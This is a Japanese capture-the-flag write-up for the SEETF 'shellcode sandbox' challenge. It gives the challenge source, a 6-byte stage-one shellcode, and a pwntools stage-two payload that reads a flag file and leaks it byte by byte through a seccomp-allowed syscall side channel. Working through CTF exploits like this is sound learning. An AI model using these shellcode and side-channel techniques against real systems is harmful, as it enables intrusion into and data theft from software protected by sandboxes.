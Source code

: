 # reversing

問題は以下の通り。この問題はソースコードが同梱されている。

```

chall: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2,
BuildID[sha1]=2f95a46c0648ddb022c28460d3b1c0548edb3084, for GNU/Linux 3.2.0, not stripped


・chall.c

int main(int argc, char **argv, char **envp)
{
    shellcode_mem = mmap((void *) 0x1337000, 0x1000, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_PRIVATE|MAP_ANON, 0, 0);
    assert(shellcode_mem == (void *) 0x1337000);

    puts("Welcome to the SEETF shellcode sandbox!");
    puts("======================================");
    puts("Allowed syscalls: open, read");
    puts("You've got 6 bytes, make them count!");
    puts("======================================");
    fflush(stdout);

    shellcode_size = read(0, shellcode_mem, 0x6);
    assert(shellcode_size > 0);

    scmp_filter_ctx ctx;
    ctx = seccomp_init(SCMP_ACT_KILL);

    assert(seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(open), 0) == 0);    
    assert(seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(read), 0) == 0);

    assert(seccomp_load(ctx) == 0);

    ((void(*)())shellcode_mem)();
}
```

mmapでshellcodeを実行する領域を確保し、そこに6バイト分書き込む。その後seccompで色々設定しているが、要はopenとreadのシステムコールしか使えない。

# exploit
## first shellcode
　まずは制約である6バイトをどう解消するかがカギになる。6バイト程度だとopenやreadの引数をすべて設定し直すのは無理だろう。

そこでmmapが実行されたときの各レジスタを見てみると、
```
$rax   : 0x0
$rbx   : 0x0
$rcx   : 0x55a8b8be8629
$rdx   : 0x00000001337000  →  0x0000050f5e52ff31
$rsp   : 0x007ffc79ffd4b0  →  0x0000000000000002
$rbp   : 0x007ffc79ffd4e0  →  0x0000000000000001
$rsi   : 0x0055ade2609010  →  0x0001000000000007
$rdi   : 0x7
$rip   : 0x0055ade20343ba  →  <main+529> call rdx
$r8    : 0x0055ade2609f20  →  0x000055a8b8be8629
$r9    : 0x0055ade2609f20  →  0x000055a8b8be8629
$r10   : 0x1
$r11   : 0x3022f71ff1d25d6e
$r12   : 0x007ffc79ffd5f8  →  0x007ffc79fff4b4  →  0x6c6c6168632f2e ("./chall"?)
$r13   : 0x0055ade20341a9  →  <main+0> push rbp
$r14   : 0x0055ade2036dc8  →  0x0055ade2034160  →  <__do_global_dtors_aux+0> endbr64
$r15   : 0x007fdfc99e9040  →  0x007fdfc99ea2e0  →  0x0055ade2033000  →   jg 0x55ade2033047
$eflags: [ZERO carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x33 $ss: 0x2b $ds: 0x00 $es: 0x00 $fs: 0x00 $gs: 0x00

─────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
   0x55ade20343ab <main+514>       mov    rax, QWORD PTR [rip+0x2cae]        # 0x55ade2037060 <shellcode_mem>
   0x55ade20343b2 <main+521>       mov    rdx, rax
   0x55ade20343b5 <main+524>       mov    eax, 0x0
 → 0x55ade20343ba <main+529>       call   rdx
   0x55ade20343bc <main+531>       mov    eax, 0x0
   0x55ade20343c1 <main+536>       leave
   0x55ade20343c2 <main+537>       ret
   0x55ade20343c3                  add    BYTE PTR [rax-0x7d], cl
   0x55ade20343c6 <_fini+2>        in     al, dx
─────────────────────────────────────────────────────────────────────────────────────────────── arguments (guessed) ────
```
　各レジスタに注目してみる。syscallを設定するraxがちょうど0(read)、読み込むバイト数であるrdxにはアドレスが格納されているおかげで書き込む量は問題ない。つまり変更したいのは、rdi(fd)とrsi(書き込み先)になる。
rdiを0にするのは簡単でxor rdi, rdiにするかmov 0してしまえばいい。rsiにはmmapのアドレスを指定したいが、ちょうどrdxがそのアドレスを指している。mov命令だと長さが足りないが、push popをうまく使えばちょうどサイズ内に収まる。
```
\x31\xff\x52\x5e\x0f\x05 (xor edi, edi; push rdx ; pop rsi; syscall)
```
## second shellcode
ここからどうflagをリークするかで詰まってしまった。まずseccompされているのを考慮すると、当時考えられたのが以下の通り。
 - seccompの解除
 - openとreadを使ってflagをリークする
 - その他の脆弱性

まずseccompを回避しようと試みたが、結局どのシステムコールも使用できなかった(retfで32bitにしてexecve, shellcodeでもう一度seccompを呼び出す等)。残念ながら他に糸口は見つからず断念した。

以下はdiscordにあったwriteupを参考にしたものである。

```
payload = asm(
    shellcraft.pushstr("./flag") + 
    shellcraft.open('rsp',0,0) + 
    shellcraft.read('rax','rsp',0x100) +
    'movzx rax, byte ptr [rsp+{}];'.format(index) +
    'xor rax, {};'.format(ord(c)) + 
    'xor rdi, rdi;' +
    'syscall;'
    )
```
このコードでやっていることは以下の通り。
- mmap領域にflagの文字列を読み込む(openとread)
- flag(index)の文字とc(解読用の文字列 solver参照)をxorする
- xorした結果をraxに格納し、readのシステムコールを呼び出す
- readが正常に呼ばれた(xor rax, rax == 0)ならその文字がflag(ただしopenも普通に呼べるので注意)

これをブルートフォースすると最終的にflagが手に入る。
